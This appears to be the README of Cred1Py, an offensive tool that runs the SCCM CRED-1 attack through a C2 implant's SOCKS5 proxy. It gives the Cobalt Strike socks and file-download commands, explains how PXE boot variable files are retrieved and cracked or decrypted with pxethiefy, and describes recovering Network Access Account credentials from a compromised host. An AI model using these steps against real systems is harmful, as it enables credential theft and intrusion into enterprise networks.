 ## Overview

This is a tool used to exploit CRED-1 over a SOCKS5 connection (with UDP support).

## Installation

```
python3 -m venv env
source ./env/bin/activate
pip install -r requirements.txt
```

## Usage

To use Cred1Py:

Start a SOCKS5 proxy via your C2, for example, CS uses the command:

```
> socks 9090 socks5 enableNoAuth a b
```

Then we can invoke Cred1py with:

```
python ./main.py <target> <src_ip> <socks_host> <socks_port>
```

Where:

* Target - The SCCM PXE server IP
* SRC_IP - The IP address of the compromised server we are running the implant on
* SOCKS_HOST - The IP of the team server running SOCKS5
* SOCKS_PORT - The SOCKS5 port

To help visualise the components referenced in the arguments:

![](./images/attack-overview.png)

Note: Due to the way that SOCKS5 works, the C2 server will need to be accessible on all ports to Cred1py as a second ephemeral port is opened as part of the relaying of UDP traffic. Easiest method is usually to just run Cred1py on the C2 server and target `localhost`.. but you do you!

## How CRED-1 Attack Works

CRED-1 can be broken down into the following steps:

1. Send a DHCP Request for the PXE image over UDP 4011
2. SCCM responds with image path and crypto keys to decrypt the referenced variables file

At this stage, two files are downloaded over TFTP, for example:

1. `2024.09.03.23.35.22.0001.{FEF9DEEE-4C4A-43EF-92BF-2DD23F3CE837}.boot.var`
2. `2024.09.03.23.35.22.07.{FEF9DEEE-4C4A-43EF-92BF-2DD23F3CE837}.boot.bcd`

Next CRED-1 takes the crypto keys returned in the DHCP response, and takes one of two paths depending on the content:

1. If the crypto key is provided, password based encryption is disabled, and therefore a key derivation function is run to produce an AES key to decrypt the variables file

OR

2. If no crypto key is provided, password based encryption is enabled, and a HashCat ouotput is produced from the variables file to allow us to recover the encryption key

Once the key has been recovered (or provided), the variable file can be decrypted and the contents can be used to retrieve Network Access Account username/password.

Further information on this attack can be found in [Misconfiguration Manager](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/CRED/CRED-1/cred-1_description.md).

## How Cred1Py Works

Cred1Py attempts to perform this flow over a SOCKS5 connection, due to UDP support being provided as part of the SOCKS5 specification and included in products such as Cobalt Strike.

There are a few differences to the Cred1py implementation to tools like PxeThiefy as SOCKS5 limits our ability to retrieve TFTP files (we can't determine the source port used during the data transfer and therefore can't download more than a handful of bytes).

This means that the requirements for Cred1Py are:

1. An implant executing with SOCKS5 enabled
2. Ability to make a SMB connection to a distribution server (this replaces the TFTP component of PxeThiefy)

Once the requirements are met, Cred1Py:

1. Sends a DHCP Request for the PXE image and crypto key
2. Retrieves the crypto keying material
3. Downloads the first 512 bytes of the variables file (possible as this is sent by TFTP server without establishing a TID which needs source port)
4. Outputs either a crypto key, or a hashcat hash, as well as the path to the boot variable file returned via DHCP

At this point, we will need to use our C2 to download the boot variable file, for example in Cobalt Strike we can use:

```
download \\sccmserver.lab.local\REMINST\SMSTemp\BootFileName.boot.var
```

Now if you have a password to crack.. crack it and then pass it as an argument to `pxethiefy.py`:

```
python ./pxethiefy.py decrypt -f /tmp/BootFileName.boot.var PASSWORD_HERE
```

However, if no PXE password is set, you'll be given the crypto key. This will need to be added to `pxethiefy.py`. Easiest way is just to mod `decrypt_media_file` in `pxethiefy.py` to use the binary key, for example:

`decrypt_media_file(args.mediafile, b'\x41\x42\x43\x44.......'):`

We then use PxeThiefy.py to decrypt the `boot.var` file with our recovered key by just invoking with any old password:

```
python ./pxethiefy.py decrypt -f /tmp/BootFileName.boot.var USE_THE_SOURCE_LUKE
```

## Credits

* Christopher Panayi, the original researcher of CRED-1 and the PxeThief OG Tool - https://github.com/MWR-CyberSec/PXEThief
* Carsten Sandker and his awesome Pxethiefy.py Tool which this is based on - https://github.com/csandker/pxethiefy

